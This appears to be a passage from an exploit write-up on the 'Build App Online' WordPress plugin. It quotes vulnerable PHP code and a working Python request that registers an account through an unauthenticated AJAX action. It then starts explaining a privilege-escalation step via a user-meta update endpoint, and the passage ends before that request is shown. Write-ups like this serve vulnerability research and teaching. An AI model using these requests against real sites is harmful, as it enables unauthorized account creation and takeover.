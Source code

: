 In the `create_user` function, we see the following logic, where new users can be created:

```php
public function create_user(){
    if (isset($_REQUEST['email']) && isset($_REQUEST['first_name']) && isset($_REQUEST['last_name'])) {
        // Create user logic here
        $user_id = wp_create_user($user_name, $password, $user_name);
    }
}

```

We can exploit this by making the following request to register a new user:

```python
res = await api.c.post("/wp-admin/admin-ajax.php", params={
    "action": "build-app-online-create-user",
    "email": creds,
    "password": creds,
    "first_name": creds,
    "last_name": creds,
    "phone": "0",
})

```

This will create a user with the provided credentials.

***

### Step 2: **Privilege Escalation via Build App Online**

Once registered and logged in, we escalate our privileges using another vulnerable AJAX endpoint, `build-app-online-update-address`, which updates user metadata. The endpoint is defined as follows:

```php
$this->loader->add_action('wp_ajax_nopriv_build-app-online-update-address', $plugin_public, 'update_address');

```

Here’s the function:

```php
public function update_address(){
    $user_id = get_current_user_id();
    if($user_id){
        foreach($_POST as $key => $value) {
            if(is_array($value)){
                if (!array_key_exists("administrator", $value) && !array_key_exists("editor", $value) && !array_key_exists("author", $value)){
                    update_user_meta($user_id, sanitize_text_field($key), $value);
                }
            } else {
                update_user_meta($user_id, sanitize_text_field($key), $value);
            }
        }
        wp_send_json(true);
    } else {
        wp_send_json(false);
    }
}

```
